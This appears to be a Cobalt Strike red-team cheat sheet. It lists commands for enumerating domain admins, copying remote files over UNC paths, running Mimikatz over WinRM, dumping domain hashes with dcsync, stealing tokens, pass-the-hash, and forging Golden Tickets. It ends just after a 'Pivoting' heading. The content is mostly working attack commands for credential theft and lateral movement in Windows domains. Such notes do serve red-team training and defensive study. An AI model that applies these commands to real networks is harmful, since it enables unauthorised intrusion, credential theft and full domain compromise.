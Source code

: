``` ./teamserver <IP> <Password> [Path to Malleable C2 Profile] [Kill Date for Beacon Payloads - YYYY-MM-DD]``` - To start the Team Server
   * `net group "enterprise admins" /DOMAIN`
   * `net group "domain admins" /DOMAIN`
   * `net localgroup "administrators" /DOMAIN`
* Beacon's `net` module
   * `net group \\DC Domain Admins`
   * `net localgroup \\DC Administrators`

#### Local Administrators ####
It may be a Domain account or not!

* 'net' module can query local groups and users
   * `net localgroup \\TARGET`
   * `net localgroup \\TARGET <group name>`
* PowerView can find Local Administrators on a host
   * `Get-NetLocalGroup -HostName TARGET`
   * `Invoke-EnumerateLocalAdmin` - On every host

### Agentless Post Exploitation - No Payload Needed ###
* Use UNC path to reference files on another host
* List files in C:\foo on remote host - `shell dir \\host\C$\foo`
* Copy remote C:\foo\secrets.txt to current host - `shell copy \\host\C$\foo\secrets.txt`
* Go shopping for files on a remote host - `shell dir /S /B \\host\C$ > files.txt`
* WinRM (port 5985) can run commands to: `powershell Invoke-Command -ComputerName TARGET -ScriptBlock { Command }`
* Use PowerSploit to run Mimikatz over WinRM: `powershell-import <path>/Invoke-Mimikatz.ps1` then `powershell Invoke-Mimikatz -ComputerName TARGET`
* Use 'dcsync' to recover a password hash from a domain controller - `dcsync <domain> <DOMAIN\user>`
* Use 'dcsync' to recover dump password hashes from a domain controller - `dcsync <domain>`

### Trust Material ###
* Tokens
   * Use `ps` to list processes
   * Use `steal_token <pid>` to steal a token
   * Use `getuid` to find out who you are
   * Use `rev2self` to drop the token
* Credentials
   * Use `spawnas DOMAIN\user <password>` - To spawn a Beacon with alternate creds
   * Use `make_token DOMAIN\user <password>` - To create a token. Most commonly used command to create a token for a Beacon.
* Password Hashes
   * Pass-the-Hash
      * Use Mimikatz - `pth DOMAIN\user <ntlmhash>` -> It starts a process with an access token populated with the username and the hash you provide. Then steals the token from that process. (Warning: This automation runs cmd.exe to pass a token back to the Beacon process, and it also interacts with LSASS)
* Kerberos Tickets
   * Use `run klist` to see which tickets are in your Kerberos tray
   * Use `kerberos_ticket_purge` to purge tickets
   * Use `kerberos_ticket_use <path>/<file>.ticket` to load a ticket
   * 'Golden Ticket' - Self-generated Kerberos ticket with Domain Admin rights
      * Forged with Mimikatz. It requires: the desired user and DOMAIN name, domain SID (`whoami /user` and drop last full number), and the NTLM hash of krbtgt user from DC.
      * In CS: 'Beacon' > 'Access' > 'Golden Ticket'

### Remote Code Execution ###
* `jump` - Lateral movement automation
* `remote-exec` - Bring your own weaponization

- - - - 

## Pivoting ##

```